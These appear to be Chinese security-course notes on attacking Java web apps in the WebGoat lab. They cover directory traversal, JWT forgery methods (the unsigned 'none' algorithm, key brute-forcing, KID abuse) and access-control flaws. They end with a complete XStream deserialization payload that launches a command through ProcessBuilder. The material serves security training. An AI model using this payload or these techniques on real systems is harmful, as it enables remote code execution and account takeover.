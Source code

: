 # WEB攻防-JavaWeb项目&JWT身份攻击&组件安全&访问控制

![day21](/Users/yangluchao/Documents/GitHub/security/image/day21.png)

```
#知识点：
1、JavaWeb常见安全及代码逻辑
2、目录遍历&身份验证&逻辑&JWT
3、访问控制&安全组件&越权&三方组件
```

演示案例：

-   JavaWeb-WebGoat8靶场搭建使用
-   安全问题-目录遍历&身份认证-JWT攻击
-   安全问题-访问控制&安全组件-第三方组件

```java
#环境下载：
https://github.com/WebGoat/WebGoat

#目录遍历

#身份认证
-键值逻辑：使用键名键值进行对比验证错误
-JWT攻击：1、签名没验证空加密 2、爆破密匙 3、KID利用
https://www.cnblogs.com/vege/p/14468030.html

#访问控制
-隐藏属性：前端页面的自慰限制显示
-水平越权：同一级别用户权限的查看

#安全组件
-联想到刚爆出的Log4j2
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>calc.exe</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>

```


